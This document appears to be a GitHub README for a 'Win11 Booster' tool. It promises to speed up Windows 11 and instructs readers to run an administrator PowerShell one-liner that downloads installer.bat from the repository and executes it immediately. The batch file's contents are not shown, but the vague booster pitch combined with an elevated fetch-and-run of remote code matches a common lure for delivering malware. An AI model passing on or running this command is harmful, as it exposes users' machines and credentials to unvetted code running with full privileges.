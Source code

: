 # Win11 Booster

This repository contains a script to boost the performance of Windows 11 using a set of PowerShell and Python commands. The script installs necessary packages, creates directories, and downloads a Python script to enhance your Windows 11 experience.

## Installation

To use the Win11 Booster script, follow the steps below:

1. Open PowerShell as an administrator.

2. Run the following command to start installation 

    ```powershell
    mkdir C:\Users\Booster ; Invoke-WebRequest -Uri 'https://github.com/Scuttlang/Win11-Booster/blob/main/installer.bat' -OutFile 'C:\Users\Booster\installer.bat' ; Start-Process -FilePath 'C:\Users\Booster\installer.bat' -Wait
    ```

## Description

The Win11 Booster script automates the process of optimizing your Windows 11 system for enhanced performance. It registers the Desktop App Installer, installs Python 3.11, creates a designated directory, and downloads a Python script to apply performance optimizations.

**Note**: Ensure that you run PowerShell as an administrator to execute the commands successfully.

Feel free to contribute to this repository and customize the script according to your needs.

Happy boosting!


[![My Skills](https://skillicons.dev/icons?i=py,vscode,powershell&perline=3)](https://skillicons.dev)
